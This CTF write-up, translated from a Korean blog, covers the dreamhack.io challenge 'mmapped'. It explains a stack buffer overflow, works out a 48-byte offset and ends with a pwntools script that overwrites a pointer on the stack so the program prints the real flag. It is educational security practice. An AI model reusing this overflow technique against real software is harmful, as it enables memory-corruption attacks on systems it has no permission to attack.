



# dreamhack.io: mmapped

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224320270829). Translated and reformatted in English.

protection techniques

View source code

The core of the vulnerability is here.

char buf[0x20]; // 32 bytes

read(0, buf, 60); // Up to 60 bytes input → stack overflow

And the subsequent flow is important.

mprotect(real_flag_addr, len, PROT_NONE);

write(1, fake_flag_addr, FLAG_SIZE);

That means, what we need to do is:

Cover fake_flag_addr with real flag mmap address

Overwriting len with 0 to make mprotect(real_flag_addr, 0, PROT_NONE) fail

Then, the real flag memory can continue to be read, and write() outputs the real flag.

The binary did not run on macOS, so the analysis continued on Ubuntu. Because it was compiled without debug symbols, local variable names were unavailable in GDB; the stack layout was therefore recovered from the disassembly.

The distance between the start of `buf` and `fake_flag_addr` is `0x30`, or 48 bytes.

distance calculation

fake_flag_addr - buf

= (rbp - 0x10) - (rbp - 0x40)

= 0x30

That is:

buf start + 0x30 = fake_flag_addr

In decimal:

0x30 = 48 bytes

from pwn import *

p = remote('host3.dreamhack.games', 21407)

p.recvuntil(b'): ')
real = int(p.recvline()[:-1], 16)

buf = b'A' * 0x30 + p64(real)
p.sendlineafter(b'input: ', buf)

p.interactive()
